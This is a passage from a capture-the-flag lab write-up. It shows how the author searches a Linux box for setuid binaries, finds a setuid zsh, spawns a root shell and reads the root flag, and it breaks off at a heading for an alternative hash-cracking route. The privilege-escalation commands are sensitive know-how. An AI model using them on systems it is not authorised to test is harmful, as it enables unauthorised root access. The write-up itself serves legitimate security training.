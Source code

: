 Another easy way to escalate privileges is to look for binaries that
have the setuid bit set. The setuid permission allows a user to run the binary as the user who owns the binary. This bit is often set to allow users to use specific binaries with elevated permissions. If the binary allows the user to spawn a shell with root permissions it can become problematic. The find command can be used to look for where binaries are
stored. The output is included below.
``` bash
find / -perm -u=s -type f 2>/dev/null  
/usr/sbin/mount.cifs  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/openssh/ssh-keysign  
/usr/bin/su  
/usr/bin/newgrp  
/usr/bin/pkexec  
/usr/bin/passwd  
/usr/bin/sudo  
/usr/bin/mount  
/usr/bin/zsh  
/usr/bin/gpasswd  
/usr/bin/chsh  
/usr/bin/umount  
/usr/bin/chfn
```  

/usr/bin/zsh is the most useful binary. Zsh is a shell program like bash or sh, as a result, using zsh to spawn a shell is rather trivial. I just run the command.

# privilege escalation 
```bash
$ /usr/bin/zsh   
/usr/bin/zsh    
dawn# #                                                                                 
whoami  
root  
```

I now have root permissions and can read the root flag.
```bash 
dawn# cat /root/flag.txt                                                          
cat /root/flag.txt  
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar thou  
gh). Also, 4 other methods are available for rooting this box!  
    
flag{[redacted]}
```

# Alternative route: cracking the hash 
